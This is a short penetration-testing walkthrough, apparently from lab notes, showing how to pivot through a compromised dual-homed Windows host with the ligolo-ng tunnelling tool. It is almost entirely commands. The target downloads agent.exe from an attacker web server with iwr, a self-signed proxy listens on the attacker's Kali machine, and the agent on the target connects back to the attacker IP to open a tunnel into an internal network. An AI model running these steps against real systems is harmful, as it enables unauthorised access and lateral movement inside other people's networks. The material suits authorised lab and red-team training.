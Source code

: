 ### Transfer agent.exe to the Target

Transfer `agent.exe` to the target Windows machine (dual-homed host):

```powershell
PS C:\\\\Users\\\\Administrator\\\\Desktop> iwr <http://192.168.45.205:8000/agent.exe> -o agent.exe

```

### Set up a Ligolo Interface

On the attacking machine (e.g. Kali) create a tun interface called `ligolo`:

```bash
$ sudo ip tuntap add user kali mode tun ligolo
$ sudo ip link set ligolo up

```

### Run the Proxy with the Selfsign Option

On Kali, run the `proxy`:

```bash
./proxy -selfcert -laddr 0.0.0.0:443

```

### Connect to the Proxy via the Compromised Host

On target (Windows or Linux), run the `agent` or `agent.exe`:

```powershell
.\\\\agent -connect 192.168.45.236:443 -ignore-cert

```

Note: The IP used here points to our attacking machine (here: Kali VM).

We should get a notification on the `proxy` that the client has established a connection.

Select the session:

```powershell
ligolo-ng » session
```

Show the interfaces (on the attacker host):

```powershell
ligolo-ng » ifconfig
ligolo-ng » start
```

```bash
[Agent : CASTLE\\\\user@CLIENT01] » ifconfig
┌───────────────────────────────────────────────┐
│ Interface 0                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet0                      │
│ Hardware MAC │ 00:50:56:9e:e6:b8              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.75.243/24               │
└──────────────┴────────────────────────────────

```
